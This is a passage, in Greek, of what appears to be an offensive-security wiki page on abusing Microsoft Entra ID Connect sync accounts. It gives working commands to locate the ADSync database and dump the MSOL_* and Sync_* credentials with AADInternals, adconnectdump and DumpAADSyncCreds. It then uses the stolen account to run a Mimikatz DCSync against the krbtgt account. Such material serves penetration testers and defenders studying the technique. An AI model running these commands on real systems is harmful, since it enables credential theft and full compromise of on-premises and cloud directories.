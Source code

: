 ```bash
$searcher.Filter = "(samAccountName=Sync_*)"
$searcher.FindAll()
```
Ελέγξτε για τη **διαμόρφωση Connect Sync** (αν υπάρχει):
```bash
az rest --url "https://graph.microsoft.com/v1.0/directory/onPremisesSynchronization"
# Check if password sychronization is enabled, if password and group writeback are enabled...
```
### Εύρεση των κωδικών πρόσβασης

Οι κωδικοί πρόσβασης του **`MSOL_*`** χρήστη (και του **Sync\_\*** χρήστη αν έχει δημιουργηθεί) είναι **αποθηκευμένοι σε έναν SQL server** στον διακομιστή όπου είναι **εγκατεστημένο το Entra ID Connect.** Οι διαχειριστές μπορούν να εξάγουν τους κωδικούς πρόσβασης αυτών των προνομιακών χρηστών σε καθαρό κείμενο.\
Η βάση δεδομένων βρίσκεται στο `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Είναι δυνατή η εξαγωγή της διαμόρφωσης από έναν από τους πίνακες, με έναν κρυπτογραφημένο:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Η **κρυπτογραφημένη διαμόρφωση** είναι κρυπτογραφημένη με **DPAPI** και περιέχει τους **κωδικούς πρόσβασης του `MSOL_*`** χρήστη στο on-prem AD και τον κωδικό πρόσβασης του **Sync\_\*** στο AzureAD. Επομένως, η παραβίαση αυτών επιτρέπει την ανύψωση προνομίων στο AD και στο AzureAD.

Μπορείτε να βρείτε μια [πλήρη επισκόπηση του πώς αποθηκεύονται και αποκρυπτογραφούνται αυτά τα διαπιστευτήρια σε αυτή την ομιλία](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Κατάχρηση MSOL\_\*
```bash
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Install-Module -Name AADInternals -RequiredVersion 0.9.0 # Uninstall-Module AADInternals  if you have a later version
Import-Module AADInternals
Get-AADIntSyncCredentials
# Or check DumpAADSyncCreds.exe from https://github.com/Hagrid29/DumpAADSyncCreds/tree/main

# Using https://github.com/dirkjanm/adconnectdump
python .\adconnectdump.py [domain.local]/administrator:<password>@192.168.10.80
.\ADSyncQuery.exe C:\Users\eitot\Tools\adconnectdump\ADSync.mdf > out.txt
python .\adconnectdump.py [domain.local]/administrator:<password>@192.168.10.80 --existing-db --from-file out.txt

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
> [!WARNING]
> Προηγούμενες επιθέσεις έχουν παραβιάσει τον άλλο κωδικό πρόσβασης για να συνδεθούν στον χρήστη Entra ID που ονομάζεται `Sync_*` και στη συνέχεια να παραβιάσουν το Entra ID. Ωστόσο, αυτός ο χρήστης δεν υπάρχει πλέον.
